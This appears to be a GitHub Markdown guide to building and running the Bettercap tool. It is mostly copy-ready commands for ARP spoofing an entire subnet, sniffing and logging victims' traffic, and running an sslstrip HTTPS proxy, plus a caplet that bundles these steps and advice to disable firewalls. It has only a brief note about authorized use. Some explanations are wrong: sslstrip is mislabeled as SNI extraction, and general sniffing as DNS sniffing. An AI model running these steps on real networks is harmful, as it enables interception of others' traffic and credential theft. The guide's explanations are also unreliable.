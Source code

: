 # 🛠️ Bettercap Full Setup & Usage Guide

This guide explains the **installation, configuration, and usage** of Bettercap from scratch, including detailed descriptions of commands, flags, and modules.

---

## 📦 Installation From Source (Ubuntu/Debian)

### Step 1: Install System Dependencies

```bash
sudo apt update
sudo apt install -y build-essential \
                    libpcap-dev \
                    libusb-1.0-0-dev \
                    pkg-config \
                    git \
                    ruby-dev \
                    libnetfilter-queue-dev \
                    golang
```

### Step 2: Clone Bettercap Repository

```bash
cd ~
git clone https://github.com/bettercap/bettercap.git
```

### Step 3: Build and Install

```bash
cd bettercap
make build
sudo make install
```

---

## 🚀 Starting Bettercap

### Basic Startup (Replace `wlo1` with your interface)

```bash
sudo bettercap -iface wlo1
```

### Common Flags

* `-iface <interface>`: Specify the network interface to use.
* `-eval <commands>`: Run commands at launch (e.g. `-eval "net.probe on"`).

---

## 🔧 Core Bettercap Modules

### 1. Network Discovery

```bash
net.probe on
net.recon on
net.show
```

**Purpose:**

* Scans the LAN for live devices and shows them.

---

### 2. ARP Spoofing

```bash
set arp.spoof.targets 192.168.1.0/24
set arp.spoof.internal true
arp.spoof on
```

**Purpose:**

* Perform MITM on the whole subnet.
* `internal true`: Spoof gateway <-> client both ways.

---

### 3. DNS Sniffing

```bash
net.sniff on
```

**Captures DNS, HTTP, HTTPS, and other sniffable protocols.**

---

### 4. Packet Sniffing + Logging

```bash
net.sniff.verbose true
set net.sniff.output /home/user/sniff.log
net.sniff on
```

**Logs all sniffed traffic to a file.**

---

### 5. HTTPS SNI Extraction

```bash
https.proxy.sslstrip true
https.proxy on
```

**Extracts domain names from HTTPS (via SNI).**

---

## 📚 Helpful Commands

### Show All Modules

```bash
help
```

### Get Info About a Module

```bash
help <module>
```

Example:

```bash
help arp.spoof
```

### Stop a Module

```bash
<module> off
```

Example:

```bash
arp.spoof off
```

### Save All Output to File

```bash
set events.stream.output events.txt
events.stream on
```

---

## 🧪 Useful Extras

### Save Bettercap Session Commands (Batch Mode)

```bash
echo "set arp.spoof.internal true
set arp.spoof.targets 192.168.1.0/24
arp.spoof on
net.sniff on" > my_script.cap
```

Then run:

```bash
sudo bettercap -iface wlo1 -caplet my_script.cap
```

---

## 🔚 To Stop All Attacks

```bash
arp.spoof off
net.sniff off
```

Or press `Ctrl+C`.

---

## 🧠 Notes

* Run Bettercap **as root**.
* Use responsibly and only on **authorized** networks.
* Best to disable firewalls and make sure IP forwarding is enabled:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

---

✅ You're now ready to use Bettercap for ethical testing!
